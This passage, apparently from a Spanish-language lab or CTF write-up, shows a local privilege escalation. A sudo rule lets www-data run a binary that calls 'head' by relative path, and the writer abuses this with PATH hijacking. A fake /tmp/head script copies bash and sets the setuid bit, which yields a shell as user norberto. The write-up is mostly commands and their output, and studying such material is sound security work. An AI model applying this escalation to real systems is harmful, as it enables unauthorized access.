 Vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@7566280e5ffd:/tmp$ sudo -l
Matching Defaults entries for www-data on 7566280e5ffd:
    env_reset, mail_badpass,
    secure_path=/tmp\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 7566280e5ffd:
    (norberto) NOPASSWD: /usr/bin/baner

```

Vemos **baner** con permisos SUDO , vamos a buscar que puede ser antes de hacer nada :

   ```bash
www-data@7566280e5ffd:/tmp$ baner
Ejecutando 'head' con ruta absoluta:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

Ejecutando 'head' con ruta relativa:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

```

Vemos que ejecuta head con ruta relativa -> **PATH HIJACKING**

```bash
www-data@7566280e5ffd:/tmp$ export PATH=/tmp:$PATH
www-data@7566280e5ffd:/tmp$ echo $PATH
/tmp:/tmp:/tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@7566280e5ffd:/tmp$ chmod 777 head
www-data@7566280e5ffd:/tmp$ cat head
#!/bin/bash

cp /bin/bash  /tmp/norberto

chmod +s /tmp/norberto
www-data@7566280e5ffd:/tmp$ sudo -u norberto /usr/bin/baner
Ejecutando 'head' con ruta absoluta:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

Ejecutando 'head' con ruta relativa:
www-data@7566280e5ffd:/tmp$ ls
head  norberto  wp.php  wp.php.1
www-data@7566280e5ffd:/tmp$ ls -la
total 1436
drwxrwxrwt 1 root     root        4096 Mar 25 19:46 .
drwxr-xr-x 1 root     root        4096 Mar 25 18:19 ..
-rwxrwxrwx 1 www-data www-data      65 Mar 25 19:44 head
-rwsr-sr-x 1 norberto norberto 1446024 Mar 25 19:46 norberto
-rw-r--r-- 1 www-data www-data     250 Nov 25 21:56 wp.php
-rw-r--r-- 1 www-data www-data     250 Nov 25 21:56 wp.php.1
www-data@7566280e5ffd:/tmp$ norberto
www-data@7566280e5ffd:/tmp$ norberto -p
norberto-5.2$ id
```